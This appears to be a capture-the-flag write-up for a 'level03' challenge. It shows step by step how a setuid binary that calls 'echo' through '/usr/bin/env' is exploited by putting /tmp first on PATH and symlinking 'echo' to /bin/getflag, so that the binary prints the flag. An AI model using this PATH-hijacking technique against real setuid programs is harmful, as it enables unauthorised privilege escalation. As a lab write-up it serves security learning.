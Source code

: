 ## Step 1
> ls ~

We saw an executable ``level03``.

## Step 2
> strings level03

We found in it ``/usr/bin/env echo Exploit me``.

## Step 3
> ls -l level03

The file is executed by the user flag03, even if we, as level03, do it.

## Step 4
We found out we can write in ``/tmp``.

> export PATH=/tmp:$PATH

> ln -s /bin/getflag echo

## Step 5
> ./level03

The flag has been printed directly.
